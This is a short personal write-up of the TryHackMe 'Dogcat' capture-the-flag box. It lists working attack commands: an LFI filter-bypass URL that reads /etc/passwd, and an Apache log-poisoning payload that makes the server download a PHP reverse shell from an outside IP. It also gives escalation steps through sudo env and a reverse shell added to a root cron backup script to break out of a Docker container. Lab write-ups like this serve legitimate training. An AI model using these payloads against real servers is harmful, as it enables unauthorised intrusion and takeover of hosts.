 # 34. Dogcat 🧭
Names | Details
--------|-----
Source | tryhackme
Level | medium
Os | linux

**Notes :**

#other/flagDir 
#other/richInfo 
#other/GAtactics 
maintain privileged shell
container inside box
shell inside docker container


## Gaining Access 😉
- LFI found, [[#Important commands 🔥]] 1
- apache log poisoning, uploaded php revshell [[#Important commands 🔥]] 2



## Maintaining Access 🥷
- env binary found as sudo, exploited
- we have a backup.sh that runs every minute, taking the backup.tar to **/root/container** adding a reverse shell to the backup script may give us access to the host root. Since it interacts with the host root folders, the backup.sh is probably created by the host and ran by the host
- added bash revshell on it. to get privileged shell


## Important commands 🔥
1. lfi filterbypass
	```
	?view=dog(../../../../../etc/passwd&ext
	```
2. php shell upload user agent
	```
	<?php file_put_contents('shell.php', file_get_contents('http://10.9.229.254/rev.php'))?>
	GET /?view=dog(../../../../../../../var/log/apache2/access.log&ext= HTTP/1.1
	```
3. find flag
	```
	find / -type f -name flag1* 2>/dev/null
	```
	

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- container inside box
- lfi to rce


--------------------------------
**By Nibras Muhammed** 🤓🖥️






